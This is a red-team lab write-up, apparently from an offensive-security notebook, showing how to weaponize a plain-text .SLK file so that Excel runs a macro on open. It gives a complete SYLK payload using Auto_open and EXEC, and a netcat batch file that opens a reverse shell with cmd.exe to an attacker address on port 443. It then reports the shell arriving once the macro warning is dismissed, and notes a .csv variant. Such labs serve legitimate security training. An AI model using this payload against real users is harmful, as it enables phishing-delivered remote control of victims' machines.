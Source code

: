 # Phishing: .SLK Excel

This lab is based on findings by [@StanHacked](https://twitter.com/StanHacked) - see below references for more info.

## Weaponization

Create an new text file, put the the below code and save it as .slk file:

{% code-tabs %}
{% code-tabs-item title="demo.slk" %}
```csharp
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("c:\shell.cmd")
C;X1;Y102;K0;EHALT()
E
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/slk-text.png)

Note that the shell.cmd refers to a simple nc reverse shell batch file:

{% code-tabs %}
{% code-tabs-item title="c:\\shell.cmd" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Execution

Once the macro warning is dismissed, the reverse shell pops as expected:

![](../../.gitbook/assets/slk-shell.gif)

Since the file is actually a plain text file, detecting/triaging malicious intents are made easier.

## Bonus

Note that the payload file could be saved as a .csv - note the additional warning though:

![](../../.gitbook/assets/slk-csv.png)

{% embed url="https://www.youtube.com/watch?v=xY2DIRfqNvA" %}

[http://www.irongeek.com/i.php?page=videos/derbycon8/track-3-18-the-ms-office-magic-show-stan-hegt-pieter-ceelen](http://www.irongeek.com/i.php?page=videos/derbycon8/track-3-18-the-ms-office-magic-show-stan-hegt-pieter-ceelen)

{% embed url="https://twitter.com/StanHacked/status/1049047727403937795" %}



